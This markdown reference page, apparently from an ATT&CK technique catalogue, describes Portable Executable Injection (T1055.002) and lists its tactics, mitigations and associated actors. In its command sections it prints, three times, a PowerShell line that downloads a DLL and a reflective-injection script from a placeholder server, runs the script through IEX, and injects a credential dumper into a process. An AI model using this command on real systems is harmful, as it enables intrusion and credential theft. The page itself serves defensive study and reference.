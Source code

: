 
# Portable Executable Injection

## Description

### MITRE Description

> Adversaries may inject portable executables (PE) into processes in order to evade process-based defenses as well as possibly elevate privileges. PE injection is a method of executing arbitrary code in the address space of a separate live process. 

PE injection is commonly performed by copying code (perhaps without a file on disk) into the virtual address space of the target process before invoking it via a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> or additional code (ex: shellcode). The displacement of the injected code does introduce the additional requirement for functionality to remap memory references. (Citation: Endgame Process Injection July 2017) 

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via PE injection may also evade detection from security products since the execution is masked under a legitimate process. 

## Aliases

```

```

## Additional Attributes

* Bypass: ['Anti-virus', 'Application control']
* Effective Permissions: None
* Network: None
* Permissions: ['User']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1055/002

## Potential Commands

```
$url="#{server}/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("file","debugger.dll");
$PBytes = $wc.DownloadData($url);
$wc1 = New-Object System.net.webclient;
$wc1.headers.add("file","Invoke-ReflectivePEInjection.ps1");
IEX ($wc1.DownloadString($url));
Invoke-ReflectivePEInjection -PBytes $PBytes -verbose
```

## Commands Dataset

```
[{'command': '$url="#{server}/file/download";\n'
             '$wc=New-Object System.Net.WebClient;\n'
             '$wc.Headers.add("file","debugger.dll");\n'
             '$PBytes = $wc.DownloadData($url);\n'
             '$wc1 = New-Object System.net.webclient;\n'
             '$wc1.headers.add("file","Invoke-ReflectivePEInjection.ps1");\n'
             'IEX ($wc1.DownloadString($url));\n'
             'Invoke-ReflectivePEInjection -PBytes $PBytes -verbose',
  'name': 'Injects cred dumper exe into an available process',
  'source': 'data/abilities/credential-access/c9f2c7ae-0092-4ea0-b9ae-92014eba7ce7.yml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Mitre Stockpile - Injects cred dumper exe into an available process': {'description': 'Injects '
                                                                                         'cred '
                                                                                         'dumper '
                                                                                         'exe '
                                                                                         'into '
                                                                                         'an '
                                                                                         'available '
                                                                                         'process',
                                                                          'id': 'c9f2c7ae-0092-4ea0-b9ae-92014eba7ce7',
                                                                          'name': 'Inject '
                                                                                  'Cred '
                                                                                  'dumper '
                                                                                  'into '
                                                                                  'process '
                                                                                  '(Spookier)',
                                                                          'platforms': {'windows': {'psh': {'command': '$url="#{server}/file/download";\n'
                                                                                                                       '$wc=New-Object '
                                                                                                                       'System.Net.WebClient;\n'
                                                                                                                       '$wc.Headers.add("file","debugger.dll");\n'
                                                                                                                       '$PBytes '
                                                                                                                       '= '
                                                                                                                       '$wc.DownloadData($url);\n'
                                                                                                                       '$wc1 '
                                                                                                                       '= '
                                                                                                                       'New-Object '
                                                                                                                       'System.net.webclient;\n'
                                                                                                                       '$wc1.headers.add("file","Invoke-ReflectivePEInjection.ps1");\n'
                                                                                                                       'IEX '
                                                                                                                       '($wc1.DownloadString($url));\n'
                                                                                                                       'Invoke-ReflectivePEInjection '
                                                                                                                       '-PBytes '
                                                                                                                       '$PBytes '
                                                                                                                       '-verbose'}}},
                                                                          'tactic': 'credential-access',
                                                                          'technique': {'attack_id': 'T1055.002',
                                                                                        'name': 'Process '
                                                                                                'Injection: '
                                                                                                'Portable '
                                                                                                'Executable '
                                                                                                'Injection'}}}]
```

# Tactics


* [Defense Evasion](../tactics/Defense-Evasion.md)

* [Privilege Escalation](../tactics/Privilege-Escalation.md)
    

# Mitigations


* [Behavior Prevention on Endpoint](../mitigations/Behavior-Prevention-on-Endpoint.md)


# Actors


* [Gorgon Group](../actors/Gorgon-Group.md)

* [Rocke](../actors/Rocke.md)
    
